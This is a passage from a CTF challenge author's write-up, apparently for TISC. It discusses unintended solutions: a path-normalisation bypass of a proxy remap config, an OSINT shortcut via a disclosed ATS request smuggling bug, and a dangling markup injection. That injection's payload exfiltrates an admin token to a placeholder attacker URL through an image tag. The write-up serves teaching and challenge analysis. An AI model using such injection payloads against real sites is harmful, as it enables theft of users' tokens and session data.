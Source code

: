 In this case, if we requested `//`, the resultant URL would be `http://app:8000//`. We could then extend this to `//do-report`, which would result in `http://app:8000//do-report`. The double-slashes are then normalised into a single slash.

This prompted the fixed version of this file to be used in the competition.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

### OSINT

Some time after submitting this challenge, I reported a HTTP request smuggling vulnerability to the maintainers of ATS. The vulnerability had to do with CRLF injection when downgrading from HTTP/2 to HTTP/1.1, and had nothing to do with this challenge.

This [vulnerability](https://lists.apache.org/thread/rc64lwbdgrkv674koc3zl1sljr9vwg21) got fixed and disclosed way sooner than I thought it would, and my name appeared in the search results of some people looking for ATS request smuggling vulnerabilities during the competition.

By Googling for my name in combination with ATS request smuggling, some people were able to find a writeup of the ATS vulnerability being used in combination with Waitress, which suffered from a similar vulnerability (accepting LF in chunked extensions) as the Node.js version in this challenge.

### Dangling Markup Injection

Instead of using Scroll-To-Text-Fragment, a much simpler attack would be to use a dangling markup injection that exfiltrated the admin's token to our URL through an image tag.

`"><img src="https://OUR_URL. If"><img src="https://OUR_URL?a=`

This would translate to&#x20;

{% code overflow="wrap" %}
```html
<div class="alert alert-success" role="alert">This token belongs to "><img src="https://OUR_URL?a=. If"><img src="https://OUR_URL?a=asks for your token, you can give them this token: TISC{OUR_TOKEN}</div> ... " ... >
```
{% endcode %}

The idea behind such an attack is that the unterminated string for `src` will run on until the next double quote, allowing us to exfiltrate the contents of the page up until the next double quote.

This is where my assumptions failed me - I had assumed that this would not be possible because Chromium would have [blocked](https://chromestatus.com/feature/5735596811091968) URLs containing newline and `<` characters. I thought that this would certainly have been the case here, as the next double quote would not be found until several lines later.
